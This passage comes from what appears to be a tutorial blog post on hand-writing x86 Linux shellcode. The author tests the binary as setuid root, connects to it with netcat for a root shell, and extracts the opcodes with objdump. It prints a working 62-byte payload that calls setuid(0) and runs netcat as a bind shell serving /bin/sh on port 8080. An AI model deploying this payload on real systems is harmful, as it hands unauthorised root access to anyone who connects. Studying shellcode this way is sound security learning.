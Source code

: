 This is a x86 assembly and to compile it on 64bit machine you should use the *-m elf_i386*{: style="color: LightGreen"} switch.

I'm using Kali Linux so I'm already root. To test the shellcode I've set the setuid bit of the file and started it from a non-privileged user,
that I created.

![shellcode-c137-test1](/images/shellcode-c137-test1.png)

No errors. That's a good sign. Also notice the setuid bit. Let's see if it's listening on port 8080.

![shellcode-c137-test2](/images/shellcode-c137-test2.png)

Now let's use netcat and connect to it.

![shellcode-c137-test3](/images/shellcode-c137-test3.png)

Yay, it works! We've got a root shell!

Let's disassemble the executable and examine the opcodes.

```bash
root@kali:~# objdump -M intel -d shellcode-c137
```

![shellcode-c137-test4](/images/shellcode-c137-test4.png)

There are no null bytes. What's left is to extract the opcodes. You could do this by hand or use the following one-liner
(I took it from [0day.work](https://0day.work/writing-my-first-shellcode-iptables-p-input-accept/)):

```bash
root@kali:~# for i in `objdump -d shellcode-c137 | tr '\t' ' ' | tr ' ' '\n' | egrep '^[0-9a-f]{2}$' ` ; do echo -n "\x$i" ; done
```
It takes the output of *objdump -d shellcode-c137*{: style="color: LightGreen"}, then replaces tabs with spaces, then replaces spaces with newlines and gets only the lines consisting of hex values. It loops through the hex values prepending \x and prints them.

And the resulting shellcode is:
```
\x31\xdb\x6a\x17\x58\xcd\x80\x31\xd2\x52
\x68\x2f\x2f\x6e\x63\x68\x2f\x62\x69\x6e
\x89\xe3\x52\x6a\x30\x66\x68\x30\x38\x68
\x2d\x6c\x70\x38\x89\xe0\x52\x6a\x68\x68
\x69\x6e\x2f\x73\x68\x2d\x65\x2f\x62\x89
\xe1\x52\x51\x50\x53\x89\xe1\x6a\x0b\x58
\xcd\x80
```

```python
>>> len('\x31\xdb\x6a\x17\x58\xcd\x80\x31\xd2\x52\x68\x2f\x2f\x6e\x63\x68\x2f\x62\x69\x6e\x89\xe3\x52\x6a\x30\x66\x68\x30\x38\x68\x2d\x6c\x70\x38\x89\xe0\x52\x6a\x68\x68\x69\x6e\x2f\x73\x68\x2d\x65\x2f\x62\x89\xe1\x52\x51\x50\x53\x89\xe1\x6a\x0b\x58\xcd\x80')
62
```
